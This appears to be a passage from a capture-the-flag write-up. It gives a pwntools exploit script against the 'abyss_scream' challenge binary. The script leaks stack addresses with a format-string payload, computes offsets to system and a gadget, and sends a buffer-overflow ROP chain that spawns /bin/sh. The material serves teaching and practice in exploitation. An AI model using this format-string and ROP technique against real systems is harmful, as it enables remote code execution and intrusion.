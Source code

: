 ## Script

This is how the whole idea looks in a script:
```python3
import sys

from pwn import *

if len(sys.argv) == 1:
    r = process("./abyss_scream")
elif len(sys.argv) == 2:
    r = remote("chall.polygl0ts.ch", 9001)
else:
    r = gdb.debug("./abyss_scream", '''set follow-fork-mode parent
b main
continue
b save_msg
b *save_msg+154
b *save_msg+204
b nothing_to_see_here
continue
''')
print(r.recvuntil(b"Enter input: "))
r.sendline(b"x")
print(r.recvuntil(b"name: "))
r.sendline(b"/bin/sh")
print(r.recvuntil(b"message: "))

payload = b'.'.join([b"%lx" for i in range(44)])

r.sendline(payload)
print(r.readline())
dump = r.readline().split(b'.')
print(dump)
main128 = int(dump[-2], 16)
binsh = int(dump[-4], 16)
main = main128 - 128
nothing_to_see_here = main + 143
poprbp = nothing_to_see_here - 442
system = main - 606

print(r.recvuntil(b"Enter input: "))
r.sendline(b"x")
print(r.recvuntil(b"name: "))
r.sendline(b"/bin/sh")
print(r.recvuntil(b"message: "))

payload  = b"A" * 0x118
payload += p64(poprbp)
payload += p64(binsh)
payload += p64(nothing_to_see_here)
payload += p64(system)

r.sendline(payload)
r.interactive()
```
